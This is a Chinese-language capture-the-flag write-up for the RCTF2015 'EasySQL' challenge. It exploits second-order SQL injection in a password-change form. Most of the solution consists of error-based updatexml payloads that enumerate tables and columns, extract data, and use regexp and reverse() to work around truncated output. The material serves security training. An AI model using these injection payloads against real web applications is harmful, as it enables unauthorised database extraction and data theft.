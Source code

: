 # [RCTF2015]EasySQL

## 知识点

`sql注入`

`二次注入`

## 解题

首页为注册界面

![Alt text](./img/21-1.png)

注册一个新用户，登入进去可以修改密码，应该是二次注入

注册时`fuzz`发现部分字符被过滤

![Alt text](./img/21-2.png)

![Alt text](./img/21-3.png)

在`Change password`时显示报错，则可以使用报错注入

![Alt text](./img/21-4.png)

则可推断出这部分的`sql`语句

`update user set password='xxx' where username="xxxx" and pwd='202cb962ac59075b964b07152d234b70'`

方法一: updatexml注入

获取表

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e),1)#
```

![Alt text](./img/21-6.png)

![Alt text](./img/21-7.png)

![Alt text](./img/21-8.png)

获取列名

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e),1)#
```

![Alt text](./img/21-9.png)

获取flag内容

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(flag))from(flag)),0x7e),1)#
```

![Alt text](./img/21-10.png)

是个假的`flag`,再找找其他表

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),0x7e),1)#
```

![Alt text](./img/21-11.png)

但是要输出数据的时候提示没有存在该列，可以推测该列没有被完全输出

可以用`regexp`正则来匹配

因为`&`在`burpsuite`中会被识别为传参，所以需要`url编码`

![Alt text](./img/21-13.png)

![Alt text](./img/21-12.png)

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)),0x7e),1)#
```

![Alt text](./img/21-14.png)

右边的`~`都还没出来，还是`regexp`来找`flag`

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')),0x7e),1)#
```

![Alt text](./img/21-15.png)

 打印出了前面的`flag`，后面还没显示出来，可以用`reverse`逆序输出`flag`

```sql
admin"^updatexml(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),0x7e),1)#
```
